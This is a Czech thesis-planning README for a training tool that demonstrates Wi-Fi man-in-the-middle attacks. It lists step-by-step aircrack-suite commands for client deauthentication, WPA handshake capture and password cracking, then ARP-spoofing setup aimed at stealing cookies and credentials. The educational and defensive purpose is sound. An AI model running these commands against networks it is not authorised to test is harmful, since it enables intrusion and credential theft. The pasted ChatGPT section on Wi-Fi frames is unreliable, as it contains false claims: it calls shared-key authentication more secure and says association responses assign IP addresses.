





# Bakalářská práce


## Demonstrační nástroj Man-in-the-middle útoků

### Cíl práce:
Cílem práce je navrhnout a implementovat demonstrační nástroj k popisu a  vysvětlení principu Man-in-the-middle (MITM) útoků na bezdrátové sítě. Tento nástroj poslouží k názorným ukázkám během školení kybernetické bezpečnosti především pro příslušníky Armády České republiky, proto musí být uživatelské rozhraní dostatečně intuitivní a přehledné. Součástí nástroje bude i popis relevantních protiopatření, které zvyšují imunitu proti MITM útokům. Nástroj bude implementován na platformě KALI Linux. Rovněž budou vytvořeny návodné a dokumentační nástroje (poster, brožura) pro cílové publikum pro zvýšení účinku školení s využitím tohoto nástroje.


### Základní technologie:
- Kali Linux 
    - airdump-ng, aireplay-ng, aircrack-ng
- externí USB Wi-Fi adaptér s možností přepuntí do monitorovacího módu
- vnitřní funkcionalita v Pythonu - interaktivní script 
- GUI nadstavba v Pythonu

---
### Osnova
1. Analýza síťových protokolů  
    1.1 OSI model  
    1.2	ARP  
    1.3	Handshake  
    1.4	WEP  
    1.5	WPA, WPA2  
    1.6	WPS  
    1.7	SSL  
2. Analýza vektorů útoku  
    2.1	Aplikace MITM  
    2.2	ARP poisoning + (MAC flooding)  
    2.3	SSLsplit  
    2.4	Analýza existujících nástrojů  
3. Návrh implementace  
    3.1	Zdůvodnění použitého jazyka implementace  
    3.2	Návrh funkcionalit konzolového back-endu  
    3.3	Návrh GUI  
4. Implementace  
    4.1	Implementace konzolového back-endu  
    4.2	Implementace GUI  
5. Testování  
    5.1	Testy funkčnosti  
    5.2	Testy výkonosti  

---
### Roadmap
- [x] 22.10.2023 – Cíl a název práce, (předběžný) Úvod
- [x] 12.11.2023 – Dokončení rešerše a studování zdrojů
- [x] 26.11.2023 – Návrh jedné kompletní kapitoly z teoretické části včetně správných citací
- [ ] 10.12.2023 – Kompletní analýza vektorů útoku
- [ ] 24.12.2023 – Návrh abstraktu, hotová první verze teoretické části BP  

- [ ] 07.01.2024 – Osvěžení si vývojového jazyku a první funkcionality konzolové verze aplikace
- [ ] 21.01.2024 – Dokončení MITM útoku

- [ ] 04.02.2024 – Dokončení SSLsplit funkcionality
- [ ] 18.02.2024 – První funkční konzolová verze aplikace

- [ ] 03.03.2024 – Doladění konzolové verze, začátek práce na GUI
- [ ] 17.03.2024 – Dokončení uživatelského rozhraní
- [ ] 24.03.2024 – Návrh testů, Dopsání praktické části práce
- [ ] 31.03.2024 – Korektura textu, finální úpravy, zadání BP k tisku

- [ ] 14.04.2024 - Odevzdání hotové BP v elektronické a tištěné podobě

---
### Rešerše:


- [x] Je potřeba Wi-Fi adaptér, který podporuje "monitor mode" (aka promiscuous mode) 
    - monitorovací mód je potřeba k zachytávání všeech rámců, které se šíří v oblasti dosahu signálu AP/zařízení
    - standardní adaptéry tuto možnost kvůli bezpečnosti nepovolují
    - umí to spíše starší adaptéry
    - nutná podmínka pro správnou funkčnost nástrojů aimon-ng, aircrack-ng, aireplay-ng...
    - :heavy_check_mark: zakoupen USB adaptér TP-Link Archer U ACT Dual Band (https://www.alza.cz/tp-link-archer-t4u-ac1300-dual-band-d1530247.htm)
        - https://deviwiki.com/wiki/List_of_Wireless_Adapters_That_Support_Monitor_Mode_and_Packet_Injection
        - http://linux-wless.passys.nl/query_part.php?brandname=TP-Link
    - jsou potřeba custom ovladače ke zprovoznení monitorovacího módu
    - :heavy_check_mark: funkční jsou:
        - https://github.com/RinCat/RTL88x2BU-Linux-Driver
        - https://github.com/cilynx/rtl88x2bu
- [x] Instalace Kali Linuxu
    - Kali linux nainstalovaný na notebook 
    - funkčí by byla i práce v instalací Kali jako virtuální stroj - _toto bude součástí testování v předposlední kapitole_ - bylo by to výrazně pohodlnější pro kolegy v AČR, kteří pak budou můj nástroj používat. Málokdo si může na služebním zařízení ainstalovat OS přímo na železo (vlastní zkušenost)
        - [x] podmínkou tohoto přístupu je externí USB adaptér (https://www.aircrack-ng.org/doku.php?id=getting_started) - HOTOVO
- [ ] Současný stav
    - Nastudovány tutoriály a knihy o MITM útoku:
        - VELU, Vijay Kumar. **Mastering Kali Linux for Advanced Penetration Testing**. 4th edition, 2022. ISBN 978-1-80181-977-0 - Kapitola 6 Wireless and Bletooth Attacks - _bettercap_, _Wifiphisher_
        - BALOCH, Rafay. **Ethical Hacking and Penetration Testing Guide**. 2015. ISBN: 78-1-4822-3162-5 (eBook - PDF) - Kapitola 6 "Network Sniffing", 11 "Wireless Hacking"
        - WEIDMAN, Georgia. **Penetration Testing, A Hands-on Introducttion to Hacking**. 2014. ISBN-13: 978-1-59327-564-8 - Kapitola 15 Wireless attacks
        - ERICKSON, Jon. **HACKING The Art Of Exploitation, 2nd edition**. 2008. ISBN-13: 978-1-59327-144-2 - Kapitola 4 Networking
        - FORSHAW, James. **Attacking Network Protocols, A Hacker's Guide to Capture, Analysis and Exploitation**. 2018. ISBN-13: 978-1-59327-750-5 - Kapitola 4 - Advanced application traffic capture - Ettercap
        - https://www.youtube.com/watch?v=WfYxrLaqlN8
    - Všechny zdroje mají jedno společné: **pracují s konzolovými aplikacemi**, to je z mých zkušeností pro demonstraci čehokoliv laikům naprosto nepřípustné!
        - kdykoliv posluchač zahlédne konzolové okno, tak vypíná mozek
        - důraz demonstračního nástroje je nejen na ukázání toho, že Wi-Fi může být "hacknuta" relativně jednoduše, doslova na pár kliknutí, ale také musí být nezbytnou součástí doplňující text s vysvětlivkami a možnostmi mitigace jednotlivých kroků útoku (např. v části lámání hesla by měly být zobrazeny i stručně zásady bezpečného hesla apod.) - **GUI je nezbytné!** 
---
BP, které podobné téma zpracovávají:
- MARUŠIC, Marek. Automatizace MitM útoku pro dešifrování SSL/TLS. Brno, 2016. Bakalářská práce. Vysoké učení technické v Brně, Fakulta informačních technologií. Vedoucí práce Pluskal Jan.
- PLCH, Matěj. Practical man-in-the-middle attacks in computer networks. 2015. Baklalářská práce. Masarykova univerzita, Fakulta Inforamtiky.
---
## "Průmyslový standard" MITM útoku: :heavy_check_mark:
https://prabhjeetlearning.medium.com/capturing-a-wi-fi-handshake-the-key-to-network-security-testing-d7aad39b3fdf
https://linuxhint.com/install_aircrack-ng_ubuntu/
1. Přepnutí adaptéru do monitorovacího módu:  
    - Zjištění názvu adaptéru
        ```s
        iwconfig
        ``` 
        
        standarně bude mít název _wlan0_ a bude mít _Mode: Managed_
    - Vypnutí (zapnutí adaptéru)
        ```s
        ifconfig wlan0 down(up)
        ```   
    - Přepnutí zvoleného adaptéru do monitorovacího módu:
        ```s
        sudo airmon-ng start wlan0
        sudo airmon-ng check kill
        ```
        ^ toto vypne kolidující služby, aby přepuntí bylo úspěšné. Undo je:
        ```s
        service NetworkManager restart
        ```
        
        
2. Zachytíme EAPOL rámce s přihlašovacími údaji
    - Start zachytávání všech paketů v dosahu - skenování okolí
        Toto zachytí rámce s MAC adresou AP
        ```s
        sudo airodump-ng wlan0mon
        ```
        
        Po zvolení požadovaného cílového AP (-d == --bssid) a kanálu (-c), záchyt zapíšeme do souboru pro pozdější analýzu např. ve Wiresharku (s filtrem EAPOL pro vyfiltrování WPA handshaku)
        ```s
        sudo airodump-ng -c11 -d :::BB:02 -w SOUBOR wlanmon
        ```
        NECHÁME BĚŽET V JEDNOM OKNĚ...
    - Ve DRUHÉM OKNĚ spustíme deautentizaci cíle:
        -c = client, -a = access point
        ```s
        sudo aireplay-ng --deauth 0 -c ::::phone -a :::BB:02 wlan0mon 
        ```
        
        To zapříčiní opětovnou snahu cíle (-c) o připojení se a poslání EAPOL paketů, které jsou zachyceny v prním okně...
3. Úklid
    - Vypnu monitorovací mód a opět zapnu standardní chování Wi-Fi (Managed mode)
        ```s
        sudo airmon-ng stop wlan0mon
        service NetworkManager restart
        ```
---
4. Lámání hesla ze zachyceného souboru:
    - Vytvoření slovníku pro lámání hesla pomocí nástroje **crunch** min max znakyabc123+ů§,.-_ -o = output_soubor
    ```s
    crunch 8 8 0123456789 -o HESLA.txt 
    ```
    - Lámání zachycené komunikace oproti slovníku rockyou.txt:
    ```s
    aircrack-ng SOUBOR.cap -w /usr/share/wordlists/rockyou.txt 
    ```
    
5. Máme heslo od Wi-Fi -> můžeme se připojit a začít páchat neplechu:
    - ARP spoofing
    Zapnutí forwardování
    ```
    cat /proc/sys/net/ipv4/ip_forward
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```  
    - -> skenování sítě: **nmap** **TODO**:x:
    - -> Sociální inženýrství: falešné přihlašovací okno **TODO**:x:
    - -> SSL split - **TODO**:x:
    - krádež cookies, credentials
---    
## Nástroje automatizující MITM útoky:
### 1. Ettercap
https://www.youtube.com/watch?v=CW0Mf9qGBOc
Aplikace použitelná až po připojení k síti. Nepopisuje jednotlivé kroky útoku. Zaznamenává traffic, který je potřeba posléze analyzovat např. Wiresharkem
```
sudo ettercap -G
```
- GUI aplikace :check:
- bez doprovodn0ho infa a bez vysvětlivek :x:
    

    

### 2. bettercap
https://www.hackers-arise.com/post/wi-fi-hacking-part-17-wi-fi-hacking-with-bettercap
- Mocný nástroj splňující všechny požadavky
- Konzolový bez GUI :x:
    

### 3. Wifiphisher
https://www.youtube.com/watch?v=ay-77C9ZZQM
- tool pro tvorbu předdefinovaných phishingových útoků na WiFi sítě. 
- neukazuje MITM a lámání hesel :x:


### Další nástroje _**TODO**_ :x:
- hostapd
- airbase-ng
- WebSploit Framework
- Ghopst Phisher
- MANA Toolkit
- Supterfuge
- easy-creds
---
- mitmproxy
- sslstrip
- SSLsplit
- Mallory
- Metasploit
---
# Závěr z rešerše: 
## Existují nástroje, které zcela nebo částečně plní požadovanou funkcionalitu. Všechny se ale zaměřují na splnění úkolu bez zbytečného výukového balastu. Je potřeba využít dostupné konzolové tooly a obalit je GUI, které postupnými demonstrativně vysvětlenými kroky provedou celou procedurou útoku. 
---
---
# Hrubý popis kompletníhop MITM útoku:
## 0. Originální situace
Klient je připojen k AP pomocí heslem zabezpečeného připojení (WEP) a komunikuje

## 1. Fáze útoku - přístup do zabezpečené sítě
- Rekonoskace: Útočník pomocí adaptéru v monitorovacím módu zachytává rámce a zjišťuje dostupné bezdrátové sítě a k nim připojené klienty.
- Deautentifikuje vybraného klienta na vybrané síti, aby zachytil 4-way handshake ráme při opkusu o opětovné připojení klienta k síti
- Lámání hesla: zachycené EAPOL rámce láme například pomocí slovníkového offline útoku
- **CÍL: útočník má heslo k síti** 

## 2. Fáze útoku - útočník je v síti a provádí Man-in-the-middle útok
- útočník je pomocí helsa připojen k síti
- pomocí ARP poisoning útoku přesměrovává komunikaci klienta na AP přes sebe

## 3. Fáze útoku - Impact fáze
- Zachytávání DNS dotazů
- přesměrování na jinou adresu (DNS spoof)
- SSLsplit  

## 4. Fáze útoku - Exfiltration
- navrácení původních ARP záznamů klienta a AP
- odpojení od sítě
- -> Návrat do **"0. Originální situace"**

## 5. Profit
- :)

---
---
# Chat GPT rešerše:
## Wi-Fi protokoly
Wi-Fi (Wireless Fidelity) je technologie, která umožňuje bezdrátové připojení k počítačovým sítím pomocí rádiových vln. Existují různé protokoly používané v rámci Wi-Fi připojení. Zde jsou některé z hlavních:

1. 802.11b/g/n/ac/ax: Tyto označení označují standardy IEEE (Institute of Electrical and Electronics Engineers), které definují parametry pro Wi-Fi sítě. Každý standard má své vlastní vlastnosti a rychlosti přenosu dat. Starší standardy, jako například 802.11b/g, pracují ve frekvenčním pásmu 2,4 GHz, zatímco novější standardy, jako 802.11ac a 802.11ax (Wi-Fi 6), mohou pracovat i ve frekvenčním pásmu 5 GHz.

2. WEP (Wired Equivalent Privacy): Tento protokol byl jedním z prvních používaných k zabezpečení Wi-Fi sítí. Nicméně, WEP má závažné bezpečnostní nedostatky a není doporučováno jej používat.

3. WPA (Wi-Fi Protected Access): V důsledku zranitelností WEP byl vyvinut WPA, aby zlepšil bezpečnost bezdrátových sítí. Existuje několik verzí WPA, včetně WPA, WPA2 a WPA3, přičemž každá verze zlepšuje bezpečnostní funkce.

4. TKIP (Temporal Key Integrity Protocol): TKIP byl navržen jako dočasná náhrada za WEP a byl používán s první verzí WPA. Nicméně, podobně jako WEP, TKIP má bezpečnostní nedostatky.

5. AES (Advanced Encryption Standard): Je používán v kombinaci s WPA2 a WPA3 pro zajištění bezpečného šifrování dat v bezdrátových sítích. AES je považován za bezpečnější než TKIP.

6. EAP (Extensible Authentication Protocol): EAP je framework pro autentizaci používaný v bezdrátových sítích. Různé metody autentizace, jako například EAP-TLS (Transport Layer Security) nebo EAP-PEAP (Protected Extensible Authentication Protocol), mohou být implementovány pomocí EAP.

Je důležité mít na paměti, že zabezpečení Wi-Fi sítí je klíčovým prvkem prevence neoprávněného přístupu a ochrany dat. Doporučuje se používat nejnovější a nejbezpečnější protokoly dostupné v rámci vašeho zařízení a infrastruktury.

## 802.11ac:
[1] https://www.candelatech.com/downloads/802.11-2016.pdf (komplet specifikace 3534 stránek!)

IEEE 802.11ac je standard pro bezdrátové lokální sítě (WLANs), který definuje technologie pro vysokorychlostní bezdrátové přenosy dat v pásmu 5 GHz. Byl přijat v roce 2013 jako nástupce starších standardů, jako je 802.11n, a přináší několik vylepšení v rychlosti a výkonu. Zde jsou některé klíčové vlastnosti protokolu 802.11ac:

1. Šířka pásma: 802.11ac podporuje širší pásma ve srovnání s předchozím standardem 802.11n. Standardně může operovat na šířce pásma 20 MHz, 40 MHz, 80 MHz nebo dokonce 160 MHz, což umožňuje přenos většího množství dat najednou.

2. MIMO (Multiple Input, Multiple Output): 802.11ac využívá technologii MIMO, což znamená, že může využívat více antén pro současný přenos dat. To zvyšuje přenosovou rychlost a zlepšuje výkon sítě.

3.  QAM (Quadrature Amplitude Modulation): 802.11ac používá pokročilé formy modulace, včetně 256-QAM, což znamená, že může přenášet více datových bitů v jednom symbolu, což zvyšuje efektivitu přenosu.

4.  Beamforming: Tato technologie umožňuje směrování signálu Wi-Fi směrem k konkrétním zařízením, což zvyšuje stabilitu připojení a snižuje interferenci.

5.  Rychlosti přenosu dat: Standard 802.11ac může dosahovat vysokých rychlostí přenosu dat, včetně několika gigabitů za sekundu. To z něj činí vhodný výběr pro aplikace, které vyžadují vysokorychlostní přenos dat, jako jsou streamování videa ve vysokém rozlišení nebo online hraní her.

6.  Zpětná kompatibilita: Zařízení podporující 802.11ac jsou obvykle zpětně kompatibilní s předchozími standardy, což znamená, že mohou komunikovat s zařízeními, která používají starší standardy jako 802.11n nebo 802.11g.

802.11ac je běžně označován jako "Wi-Fi 5", v rámci novějších standardů, jako je 802.11ax (Wi-Fi 6) a 802.11be (Wi-Fi 7). Používá se v široké škále zařízení, včetně směrovačů, přístupových bodů a moderních mobilních zařízení.

## Připojení zařízení k Wi-Fi:
Při připojování zařízení k Wi-Fi síti se vysílají různé rámce (frames), které slouží k různým účelům. Zde jsou některé z hlavních typů rámců, které se používají během procesu připojení:

1. Beacon Frame:
    - https://mrncciew.com/2014/10/08/802-11-mgmt-beacon-frame/
    - Účel: Beacon rámce jsou vysílány pravidelně od přístupových bodů (AP) a obsahují informace o síti, jako je identifikace sítě (SSID), podporované rychlosti přenosu dat, informace o zabezpečení a další. Tyto rámce pomáhají klientům nalézt a identifikovat dostupné sítě.
    - Použití při připojování: Klient, který se snaží připojit k síti, může přijímat Beacon rámce od okolních AP a rozhodnout se, ke které síti se připojit.
    - **Beacon Frame:**
        - Účel: 
            - Beacon rámce jsou základním prvkem komunikace přístupových bodů (AP) v bezdrátových sítích. Tyto rámce jsou pravidelně vysílány AP do éteru, aby informovaly okolní zařízení o existenci a parametrech sítě.
            - Účelem Beacon rámců je umožnit klientům (Wi-Fi zařízením) identifikovat dostupné sítě a rozhodnout se, ke které se připojit.
        - Obsah Beacon rámce: 
            - SSID (Service Set Identifier): Jedná se o jedinečný identifikátor sítě. Klienti používají SSID k identifikaci sítí, ke kterým se mohou připojit.
            - Rychlost přenosu dat: Informace o podporovaných rychlostech přenosu dat, které mohou klienti v síti očekávat.
            - Příznaky (Flags): Beacon rámce obsahují různé příznaky, které informují klienty o různých vlastnostech sítě, například zda je síť skrytá (nevysílá SSID) nebo zda používá zabezpečení.
            - Délka do dalšího Beacon rámu: Informace o tom, za jak dlouho klienti mohou očekávat další Beacon rámec od stejného přístupového bodu.
            - Další informace: Beacon rámce mohou obsahovat další informace, jako například časový razítko (Timestamp), což může pomoci klientům odhadnout stabilitu sítě.
        - Použití při připojování:
            - Když klient hledá dostupné sítě, naslouchá Beacon rámce vysílaným přístupovými body v okolí.
            - Klienti mohou použít informace obsažené v Beacon rámcích, jako je SSID, síla signálu a další, k rozhodnutí, ke které síti se připojit.
            - Beacon rámce hrají klíčovou roli při procesu připojení, protože pomáhají klientům identifikovat sítě a získat potřebné informace pro bezpečné připojení k Wi-Fi síti.

Beacon rámce jsou tedy základním prvkem pro efektivní správu a identifikaci bezdrátových sítí a hrají důležitou roli v procesu inicializace a připojení zařízení k Wi-Fi síti.

2. Probe Request/Response Frame:
    - Účel: Probe rámce jsou vysílány klienty, kteří aktivně hledají dostupné sítě. Tyto rámce mohou obsahovat informace o konkrétních sítích, na které klient cíleně zkoumá připojení.
    - Použití při připojování: Klient může vysílat Probe Request rámce a přijímat Probe Response rámce od přístupových bodů, které odpovídají na jeho žádost.
    - **Probe Request/Response Frame:**
        - Účel:
            - Probe Request: Klienty mohou vysílat Probe Request rámce, když aktivně hledají dostupné sítě. Tyto rámce obsahují informace o síti, kterou klient hledá, jako je SSID.
            - Probe Response: Přístupové body odpovídají na Probe Request rámce prostřednictvím Probe Response rámce. Tyto rámce obsahují informace o síti, na kterou je klient zván, včetně SSID, rychlosti přenosu dat a dalších informací.
        - Obsah Probe Request/Response rámce:
            - SSID (Service Set Identifier): V případě Probe Request obsahuje požadovaný SSID, tedy identifikátor sítě, kterou klient hledá. V případě Probe Response obsahuje informace o síti, na kterou klient reaguje.
            - Dálkový rámec: Obsahuje informace o rychlosti přenosu dat a dalších parametrech, které klient požaduje nebo na které reaguje.
            - Příznaky (Flags): Identifikují, zda se jedná o Probe Request nebo Probe Response, a mohou obsahovat další informace o stavu sítě.
            - Informace o síti: Probe Response může obsahovat informace o dostupné síti, jako je SSID, rychlost přenosu dat, případně další informace, které by mohly být užitečné pro klienta.
        - Použití při připojování:
            - Probe Request: Klienty vysílají Probe Request rámce, když aktivně hledají dostupné sítě. Tyto rámce jsou vysílány na všechny okolní přístupové body.
            - Probe Response: Přístupový bod, který odpovídá na Probe Request, vysílá Probe Response rámec, který obsahuje informace o síti. Klienti pak mohou rozhodnout, ke které síti se připojit na základě těchto informací.
        - Probe Request a Probe Response rámce jsou důležité pro aktivní vyhledávání dostupných sítí ze strany klientů a poskytují mechanismus pro identifikaci a komunikaci s přístupovými body v dané oblasti. Tyto rámce jsou součástí procesu inicializace připojení k Wi-Fi síti.

3. Authentication Frame:
    - Účel: Rámce autentizace jsou používány k ověření identity klienta nebo přístupového bodu v rámci zabezpečeného připojení.
    - Použití při připojování: Klient a přístupový bod komunikují pomocí autentizačních rámů před tím, než začne proces asociace.
    - Authentication Frame:
        - Otevřená autentizace (Open System Authentication):
            - Klient požádá o autentizaci u přístupového bodu pomocí Authentication Request rámce.
            - Přístupový bod odpoví Authentication Response rámcem, který může být potvrzením nebo zamítnutím autentizační žádosti klienta.
        - Autentizace s předáváním klíče (Shared Key Authentication):
            - Klient požádá o autentizaci u přístupového bodu pomocí Authentication Request rámce.
            - Přístupový bod odpoví Authentication Response rámcem a žádá od klienta, aby potvrdil svou identitu pomocí sdíleného klíče.
            - Klient odpovídá Authentication Request rámcem, který obsahuje textový řetězec (challenge text). Tento text je šifrován pomocí sdíleného klíče.
            - Přístupový bod dešifruje přijatý text pomocí svého sdíleného klíče a porovná ho s původním textem. Pokud odpovídají, autentizace je úspěšná.
        - Obsah Authentication rámce:
            - Typ autentizace: Indikuje, zda se jedná o otevřenou autentizaci nebo autentizaci s předáváním klíče.
            - Status autentizace: Indikuje, zda byla autentizace úspěšná nebo neúspěšná.
            - Délka challenge textu (pouze u autentizace s předáváním klíče): Obsahuje délku challenge textu, který je přenášen v Authentication rámci.
        - Použití při připojování:
            - Autentizační rámce jsou součástí procesu inicializace připojení k Wi-Fi síti.
            - Otevřená autentizace může být použita, pokud je síť otevřená, zatímco autentizace s předáváním klíče poskytuje další vrstvu bezpečnosti při výměně klíčů pro autentizaci.
        - Bezpečnostní úvahy:
            - Otevřená autentizace je méně bezpečná, protože komunikace mezi klientem a přístupovým bodem není šifrovaná.
            - Autentizace s předáváním klíče poskytuje vyšší úroveň bezpečnosti, protože výměna klíčů je šifrovaná, což ztěžuje odposlech a útoky na autentizační proces.
    - Authentication rámce jsou klíčovým prvkem v procesu zajištění, že zařízení, která se připojují k Wi-Fi síti, jsou legitimní a mají oprávnění přistupovat k síti.

4. Association Request/Response Frame:
    - Účel: Rámce asociace jsou používány k oficiálnímu připojení klienta k přístupovému bodu. Obsahují informace, jako je SSID sítě, rychlosti přenosu dat a další.
    - Použití při připojování: Klient vysílá Association Request rámce a přístupový bod odpovídá pomocí Association Response rámce, pokud je připojení povoleno.
    - Association Request/Response Frame:
        - Association Request:
            - Klient vysílá Association Request rámec k přístupovému bodu, se kterým chce vytvořit asociaci.
            - Association Request obsahuje informace o požadované síti, včetně SSID (identifikátor sítě), rychlosti přenosu dat a dalších parametrů.
        - Association Response:
            - Přístupový bod odpovídá Association Request rámci pomocí Association Response rámce.
            - Association Response obsahuje informace o tom, zda byla asociace povolena nebo zamítnuta, a další parametry, jako je přidělená adresa IP nebo rychlost přenosu dat.
        - Obsah Association rámce:
            - BSSID (Basic Service Set Identifier): Unikátní identifikátor přístupového bodu.
            - SSID: Identifikátor sítě, ke které klient žádá o připojení.
            - Rychlost přenosu dat: Informace o podporovaných rychlostech přenosu dat mezi klientem a přístupovým bodem.
            - Délka období do další asociace: Informace o tom, za jak dlouho může klient očekávat další asociaci od stejného přístupového bodu.
            - Status asociace: Indikuje, zda byla asociace úspěšná nebo neúspěšná.
            - Další parametry: Association Response může obsahovat další informace, jako například přidělenou IP adresu nebo další konfigurační informace.
        - Použití při připojování:
            - Asociační rámce jsou klíčovým prvkem v procesu inicializace připojení klienta k bezdrátové síti.
            - Klient používá Association Request k formální žádosti o připojení k síti a přístupový bod odpovídá pomocí Association Response, což ukončuje proces asociace.
    - Asociační rámce jsou nezbytné pro vytvoření spojení mezi klientem a přístupovým bodem a umožňují klientovi komunikovat s ostatními zařízeními v síti. Při úspěšné asociaci klient získává plný přístup k síti a může začít využívat bezdrátové spojení.

5. ARP Request/Response Frame:
    - Účel: ARP (Address Resolution Protocol) rámce jsou používány pro zjištění MAC adresy zařízení na základě jeho IP adresy v lokální síti.
    - Použití při připojování: Když zařízení potřebuje komunikovat s jiným zařízením v síti, ale zná pouze jeho IP adresu, může vyslat ARP Request, aby zjistilo odpovídající MAC adresu.
    - ARP Request/Response Frame:
        - ARP Request:
            - Účel: Používá se k získání MAC adresy cílového zařízení na základě známé IP adresy.
            - Obsah:
                - Zdrojová IP adresa: IP adresa odesílatele (zařízení, které posílá ARP Request).
                - Zdrojová MAC adresa: MAC adresa odesílatele.
                - Cílová IP adresa: IP adresa zařízení, pro které chce odesílatel zjistit MAC adresu.
                - Cílová MAC adresa: V ARP Requestu je tato adresa obvykle nastavena na broadcastovou adresu (všechny jednotky) FF:FF:FF:FF:FF:FF, protože odesílatel nezná MAC adresu cílového zařízení.

        - ARP Response:
            - Účel: Odpovídá na ARP Request a poskytuje cílovou MAC adresu.
            - Obsah:
